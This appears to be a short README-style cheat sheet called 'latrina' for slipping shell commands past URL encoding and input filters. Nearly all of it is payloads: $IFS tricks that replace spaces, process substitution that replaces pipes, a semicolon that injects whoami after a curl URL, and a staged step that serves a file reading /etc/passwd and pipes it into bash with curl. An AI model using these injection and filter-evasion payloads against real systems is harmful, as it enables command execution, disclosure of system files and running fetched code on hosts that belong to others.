 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd . --port 80`  
`curl -s http://localhost/$0 | bash`
